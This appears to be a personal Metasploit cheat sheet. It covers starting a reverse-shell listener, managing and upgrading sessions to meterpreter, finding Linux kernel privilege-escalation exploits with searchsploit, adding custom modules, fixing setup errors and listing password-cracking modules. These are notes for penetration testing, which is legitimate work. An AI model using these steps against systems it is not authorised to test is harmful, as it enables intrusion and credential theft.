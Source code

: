 # msfconsole

                                       ___          ____
                                   ,-""   `.      < HONK >
                                 ,'  _   e )`-._ /  ----
                                /  ,' `-._<.===-'
                               /  /
                              /  ;
                  _          /   ;
     (`._    _.-"" ""--..__,'    |
     <_  `-""                     \
      <`-                          :
       (__   <__.                  ;
         `-.   '-.__.      _.'    /
            \      `-.__,-'    _,'
             `._    ,    /__,-'
                ""._\__,'< <____
                     | |  `----.`.
                     | |        \ `.
                     ; |___      \-``
                     \   --<
                      `.`.<
                        `-'

## create reverse listener

> helps to deal with latency

    use multi/handler
    set lport 6666
    exploit -j
    jobs

once pwn / connected:

    sessions -l
    sessions -i <id>

    # upgrade shell to meterpreter
    sessions -u <session_id>

    # kill all jobs
    jobs -k

## manual exploits using exploitdb

One may need to adapt something from the wild or simply use more than msf community has to offer:

    searchsploit privilege | grep -i linux | grep -i kernel | grep 3.13
    searchsploit <keyword1> <keyword2>

    # get full path (/usr/share/exploitdb/)
    searchsploit -p 33824
    locate linux/local/33824.c

## add custom exploit

        $ tree /root/.msf4/modules/
        /root/.msf4/modules/
        ├── exploits
        │   └── windows
        │       └── trusted_privilge_escalation.rb
        └── post
            └── kernel_3_13.rb

## msf db missing role

    msf5 > db_connect msfdb init
    [-] Error while running command db_connect: Failed to connect to the Postgres data service: FATAL:  role "<user>" does not exist

    sudo -u postgres createuser -s $(whoami); createdb $(whoami)

## missing gems

    $ sudo msfconsole
    Unable to find a spec satisfying metasploit-framework (>= 0) in the set. Perhaps the lockfile is corrupted?                                               Run `bundle install` to install missing gems.

    $ cd /usr/share/metasploit-frame
    $ sudo gem install bundler
    $ sudo bundle install
    $ sudo gem update --system

## passwords

    msf6 > search auxiliary/analyze

    Matching Modules
    ================

       #  Name                                      Disclosure Date  Rank    Check  Description
       -  ----                                      ---------------  ----    -----  -----------
       0  auxiliary/analyze/apply_pot                                normal  No     Apply Pot File To Hashes
       1  auxiliary/analyze/crack_aix                                normal  No     Password Cracker: AIX
       2  auxiliary/analyze/crack_databases                          normal  No     Password Cracker: Databases
       3  auxiliary/analyze/crack_linux                              normal  No     Password Cracker: Linux
       4  auxiliary/analyze/crack_mobile                             normal  No     Password Cracker: Mobile
       5  auxiliary/analyze/crack_osx                                normal  No     Password Cracker: OSX
       6  auxiliary/analyze/crack_webapps                            normal  No     Password Cracker: Webapps
       7  auxiliary/analyze/crack_windows                            normal  No     Password Cracker: Windows
       8  auxiliary/analyze/modbus_zip                               normal  No     Extract zip from Modbus communication
       9  auxiliary/scanner/oracle/oracle_hashdump                   normal  No     Oracle Password Hashdump

